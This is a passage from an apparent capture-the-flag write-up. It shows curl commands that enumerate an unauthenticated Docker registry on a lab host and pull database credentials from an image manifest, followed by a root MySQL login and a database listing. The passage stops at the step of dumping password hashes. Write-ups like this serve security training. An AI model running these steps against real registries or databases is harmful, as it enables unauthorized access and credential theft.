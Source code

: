 ```console
$ curl -s http://10.10.142.44:5000/v2/_catalog | jq
{
  "repositories": [
    "umbrella/timetracking"
  ]
}
```
- There is one repository named: `umbrella/timetracking`

Getting the tags for repository.
```console
$ curl -s http://10.10.142.44:5000/v2/umbrella/timetracking/tags/list | jq
{
  "name": "umbrella/timetracking",
  "tags": [
    "latest"
  ]
}
```

- There is only one tag: `latest`

### Finding DB Credentials

Checking the manifest for `umbrella/timetracking:latest`, we get the credentials for the database in environment variables.

```console
$ curl -s http://10.10.142.44:5000/v2/umbrella/timetracking/manifests/latest | jq
```
![Database Password](db_pass.webp){: width="800" height="300" }

### Dumping hashes from the database and cracking them

Connecting to the database.
```console
$ mysql -u root -p -h 10.10.142.44
```

Listing databases.

```console
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0.085 sec)
```
Dumping the hashes.
